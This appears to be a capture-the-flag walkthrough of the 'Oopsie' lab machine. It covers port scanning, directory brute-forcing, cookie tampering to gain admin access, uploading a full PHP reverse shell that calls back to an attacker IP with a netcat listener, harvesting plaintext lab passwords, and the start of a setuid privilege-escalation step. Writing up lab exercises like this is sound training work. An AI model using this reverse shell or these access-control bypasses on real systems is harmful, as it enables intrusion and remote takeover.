# Oopsie

---

## Initial Recon

- Set the target IP to avoid retyping. Ping the box, then run the initial `nmap` scan.
- Why `nmap -sC -sV`
	- `-sC` is the default NSE (Nmap Scripting Engine) script set. When it sees an open port, it runs standard scripts against services relevant to that port to reveal additional details. This includes SMB security mode, SSH host keys, SSL/TLS certificate details, and more.
	- `-sV` runs service version detection. Nmap probes the open port to find out what service is actually listening there, along with version info to help you decide what tools to use next or what weaknesses might exist.

```bash
# Set target IP
boxip="10.129.x.x"

# Initial ping
ping $boxip -c 3

# Basic recon
nmap -sC -sV $boxip
```

---

## Nmap Output

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-04-22 10:45 -0400
Nmap scan report for 10.129.95.191
Host is up (0.070s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.51 seconds
```

---

## Findings

### Findings Part 1 - Open Ports and HTTP Clues

- `22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3` - could be useful after obtaining credentials later in the attack chain.
- `80/tcp open http Apache httpd 2.4.29 (Ubuntu)` - primary public attack surface. It is not up to date; the latest version is 2.4.66.

Since there is a public-facing web server, use **cURL** to collect raw headers and content. This can reveal banners, redirects, cookies, internal naming, and hidden application hints.

```bash
# Grab headers and page content
curl -i http://$boxip
```

- `HTTP/1.1 200 OK` - the web page is online and responding to requests.
- `Server: Apache/2.4.29 (Ubuntu)` - this confirms the same server version result from the Nmap scan.
- `Content-Type: text/html; charset=UTF-8` - the web page is serving standard HTML instead of being something like a file download page.



After visiting the actual web page in Firefox:

- The site presents itself as **MegaCorp Automotive**.
- The page references static directories such as `/css`, `/themes`, `/images`, and `/js`.
- The footer exposes `admin@megacorp.com`.
- The page states that users must log in to access the actual service.


After looking through the full HTTP response, `curl -i "http://$boxip" | tail` reveals a critical insight: two URLs that might come in handy later:

```html
<script src="/cdn-cgi/login/script.js"></script>
<script src="/js/index.js"></script>
```



---

### Findings Part 2 - Directory Discovery

The login portal is known. Continue with directory and file discovery using two common tools:

- **Gobuster** - answers "what obvious directories are here?"

```bash
# Directory and file discovery
gobuster dir -u http://$boxip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

- `dir` selects Gobuster's directory and file enumeration mode.
- `-u` sets the target URL to scan.
- `-w` provides the wordlist file containing the paths Gobuster will test.



```text
images   (Status: 301)
themes   (Status: 301)
uploads  (Status: 301)
css      (Status: 301)
js       (Status: 301)
fonts    (Status: 301)
```

Most relevant is **uploads**. This indicates application functionality beyond a static page.

- **ffuf** can better answer "how does the web application respond when I do this?"
```bash
ffuf -u http://$boxip/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -mc 200,301,302,403
```

- `-u` sets the target URL and marks `FUZZ` as the position where each wordlist entry will be inserted.
- `-w` provides the wordlist file that `ffuf` will iterate through.
- `-mc` means "match codes" and tells `ffuf` to show only responses with status codes `200`, `301`, `302`, or `403`.



```text
themes [Status: 301 ...]
uploads [Status: 301 ...]
css [Status: 301 ...]
images [Status: 301 ...]
js [Status: 301 ...]
fonts [Status: 301 ...]
```
- Same pages as the Gobuster results. Continue.

---

### Findings Part 3 - Web Misconfiguration Checks

We have `/cdn-cgi/login/script.js` and `/uploads/`. Run **nikto** to check common web misconfigurations.

- **nikto** is a long-standing web scanner focused on common misconfigurations, weak hardening, known files, and odd server behavior.

```bash
nikto -h http://$boxip -C all
```

- `-h` sets the target.
- `-C all` checks all CGI (Common Gateway Interface) directory possibilities.

Results:

```text
+ Apache/2.4.29 appears to be outdated
+ /images: IP address found in the 'location' header. The IP is "127.0.1.1"
+ Suggested security header missing: content-security-policy
+ Suggested security header missing: permissions-policy
+ Suggested security header missing: x-content-type-options
+ Suggested security header missing: referrer-policy
+ Suggested security header missing: strict-transport-security
+ Web Server returns a valid response with junk HTTP methods which may cause false positives
```

- We know this version of Apache is outdated from our earlier Nmap scan.
- `127.0.1.1` is commonly seen on Ubuntu systems as a hostname mapping.
- Missing headers indicate weak browser side hardening.

This is typical for an unencrypted web application. Move to **SSH enumeration**.

```bash
nmap -p22 --script ssh-hostkey,ssh2-enum-algos "$boxip"
```

- `-p22` limits the scan to SSH.
- `ssh-hostkey` extracts SSH host key fingerprints.
- `ssh-enum-algos` is an NSE script that asks the server which SSH version 2 algorithm it supports.

- No clear cryptographic weakness exists here. Moving on.

---

### Findings Part 4 - Expanded Enumeration

The login page appeared in HTTP response data but not in initial Gobuster output. Re-run Gobuster with extension expansion.

```bash
gobuster dir \
  -u http://$boxip \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,txt,html
```

- `-x php,txt,html` expands guesses into names such as:
	  - `login.php`
	  - `index.php`
	  - `notes.txt`



---

### Findings Part 5 - Guest Access and Broken Authorization

First checkpoint question:

**Q1 - What kind of tool can intercept web traffic?**
**Answer:** `proxy`

Command-line and browser recon established initial paths. Move to **Burp Suite** for *spidering* to discover application-referenced endpoints.



There's that `cdn-cgi/login` URL again.

After visiting the web page we are presented with a login portal which contains an option that states `Login as Guest`. After performing a guest login and attempting to access the `Uploads` page from the menu, we are met with a message that says `This action require super admin rights`.



**Q2 - What is the path to the directory on the web server that returns a login page?**
**Answer:** `cdn-cgi/login`

**Q3 - What can be modified in Firefox to access the upload page?**
**Answer:** `cookie`



Guest session cookie data is visible in browser developer tools. If the cookie contains client-trusted authorization state, modifying it can grant access to the `Uploads` portal.

Context note: this behavior maps to broken access control. Changing client-controlled identifiers should not grant higher privileges without server-side authorization checks.

Burp Suite has uncovered the URL portion which designates the user session:



Attempting to modify the URL directly:

`http://10.129.95.191/cdn-cgi/login/admin.php?content=accounts&id=1`

Successfully reveals `Access ID 34322` for `admin`.



**Q4 - What is the access ID of the admin user?**
**Answer:** `34322`

---

### Findings Part 6 - Upload Functionality and Foothold

Back in browser developer tools, we can edit the `guest` session ID with the admin access ID and then attempt to access `http://10.129.95.191/cdn-cgi/login/admin.php?content=uploads`.



`Uploads` page is now accessible. Testing it out by uploading a text file containing the word `Test` produces the success message `The file Test.txt has been uploaded.`



**Q5 - After uploading a file, in which directory does it appear on the server?**
**Answer:** `/uploads`

The answer above was visible in earlier Gobuster output. Next, use upload functionality to deliver a PHP reverse shell that connects back to the attacker and enables remote command execution. Source script: [BlackArch php-reverse-shell.php](https://github.com/BlackArch/webshells/blob/master/php/php-reverse-shell.php).

```php
<?php
// Minimal reverse-shell stub for note-taking.
// For full version, see: http://pentestmonkey.net/tools/php-reverse-shell

set_time_limit(0);
$ip = '10.10.15.134';  // CHANGE THIS (your tun0 IP)
$port = 4444;          // CHANGE THIS

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    die("$errstr ($errno)");
}

$descriptorspec = array(
    0 => array("pipe", "r"),
    1 => array("pipe", "w"),
    2 => array("pipe", "w")
);

$process = proc_open('/bin/sh -i', $descriptorspec, $pipes);
if (!is_resource($process)) {
    die("ERROR: Can't spawn shell");
}

while (!feof($sock)) {
    $input = fread($sock, 1400);
    fwrite($pipes[0], $input);
    fwrite($sock, fread($pipes[1], 1400));
    fwrite($sock, fread($pipes[2], 1400));
}

fclose($sock);
proc_close($process);
?>
```

Set the script to the attacker `tun0` IP and listening port, then start a `netcat` listener:

```bash
# On attacker machine
# Modify the script using the tun0 IP address and desired netcat port
ip a | grep 'tun0'

# Start the netcat listener
nc -lvnp 4444
```

Upload the file using the web page user interface.



After upload, check the `netcat` listener. Reverse shell confirmed.



---

### Findings Part 7 - Post-Exploitation and Privilege Escalation

Enumerate directories. Under `/var/www/html/`, the `/cdn-cgi/login` path contains `db.php`.

**Q6 - Which file contains the password shared with user `robert`?**
**Answer:** `db.php`



```bash
$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

With `robert` credentials recovered, perform an additional credential check:

```bash
# Search the /cdn-cgi/login folder for password
grep -R -i pass .
```

Result:

```html
if($_POST["username"]==="admin" && $_POST["password"]==="MEGACORP_4dm1n!!")
<input type="password" name="password" placeholder="Password" />
```

Two passwords are now available. In `/home/`, locate `user.txt`.

```bash
$ cat user.txt
f2c74ee8db7983851ab2a96a44eb7981
```

To authenticate as `robert`, first upgrade the shell to interactive mode.

```bash
# Make shell interactive
python3 -c 'import pty;pty.spawn("/bin/bash")'

# Login as robert with password from db.php
su robert
# Password: M3g4C0rpUs3r!

# Check user, location and permissions
whoami
ls
id
```
`robert` belongs to the `bugtracker` group.



**Q7 - Which executable uses the option `-group bugtracker` to identify files owned by the `bugtracker` group?**
**Answer:** `find`

```bash
# Hides noisy 'permission denied' errors
find / -type f -group bugtracker 2>/dev/null
```



Run `bugtracker` and enter test value `1`:

```text
------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
```

Inspect the binary permissions and type.

```bash
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
```

Result:
```bash
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
